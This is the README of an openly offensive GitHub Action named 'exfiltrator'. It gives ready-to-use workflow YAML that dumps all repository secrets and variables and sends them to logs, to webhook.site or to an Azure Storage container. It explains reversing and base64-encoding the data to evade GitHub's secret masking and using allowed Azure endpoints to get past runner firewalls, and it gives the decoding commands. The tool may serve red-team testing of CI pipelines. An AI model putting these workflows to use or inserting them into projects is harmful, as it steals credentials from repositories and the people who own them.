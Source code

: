 ## Background

All the contexts: https://docs.github.com/en/actions/writing-workflows/choosing-what-your-workflow-does/accessing-contextual-information-about-workflow-runs
Printing context to logs: https://docs.github.com/en/actions/writing-workflows/choosing-what-your-workflow-does/accessing-contextual-information-about-workflow-runs#about-contexts

## Usage

### Exfil to GitHub Action logs (default behaviour)

``` yml
on: push

jobs:
  exfil:
    runs-on: ubuntu-latest
    name: This will exfil secrets
    steps:
      - uses: offensive-actions/exfiltrator@main
        with:
          vars: ${{ toJSON(vars) }}
          secrets: ${{ toJSON(secrets) }}
```

### Exfil to webhook.site

``` yml
on: push

jobs:
  exfil:
    runs-on: ubuntu-latest
    name: This will exfil secrets
    steps:
      - uses: offensive-actions/exfiltrator@main
        with:
          vars: ${{ toJSON(vars) }}
          secrets: ${{ toJSON(secrets) }}
          sink: 'webhook.site'
          webhook-site-id: '<site_id>'
```

This allows sending the data off to [https://webhook.site](https://webhook.site).

Going there will automatically generate an ID you can use for the input variable `webhook-site-id`.

> ⚠️ Beware: if you do not use the paid version of the service, the exfiltrated data will be readable for anyone with the correct ID (UUID), and for the owner of the site.

### Exfil to Azure Storage Account container

``` yml
on: push

jobs:
  exfil:
    runs-on: ubuntu-latest
    name: This will exfil secrets
    steps:
      - uses: offensive-actions/exfiltrator@main
        with:
          vars: ${{ toJSON(vars) }}
          secrets: ${{ toJSON(secrets) }}
          sink: 'azure-storage-account'
          az-storage-account-name: '<storage_account_name>'
          az-storage-container-name: '<container_name>'
          az-storage-sas-token: '<sas_token>'
```

This option is available, since `*.blob.core.windows.net` has to be whitelisted even for firewall protected self-hosted runners, since GitHub uses Azure Storage Accounts for writing job summaries, logs, workflow artifacts, and caches (see [documentation](https://docs.github.com/en/actions/hosting-your-own-runners/managing-self-hosted-runners/about-self-hosted-runners#communication-between-self-hosted-runners-and-github)).

If your Storage Account has the globally unique name `examplename`, it will be available at `https://examplename.blob.core.windows.net`...

You should generate an SAS token that will allow for write-only for a limited time. This will generate one that is valid for 10 minutes:

``` bash
az storage container generate-sas --account-name <storage_account_name> --name <container_name> --permissions w --expiry $(date -u -d "+10 minutes" +"%Y-%m-%dT%H:%M:%SZ")
```

### Working with the output

The Action will exfiltrate a json that is first reversed character by character (to circumvent the masking of secrets) and then base64 encoded for the transport.

Follow these steps to make this blob readable:

``` bash
# make all of it readable
echo <output> | base64 -d | rev | jq

# show only the envvars that get a special treatment, since they are not in json format to begin with
echo <output> | base64 -d | rev | jq -r '.[0].envvars' | base64 -d
```

## Next steps

Status:
* logs works on all OSs
* Azure storage works only on ubuntu; on windows there are "too many arguements for curl" and on macos there is a weird problem with awk - however, it worked for logs sink, so I dont get it.

1. If exfil fails to webhook or Azure, the action still succeeds, since the HTTP errors are not regarded as errors in general. Change that?
2. Fix Azure exfil for windows and macOS
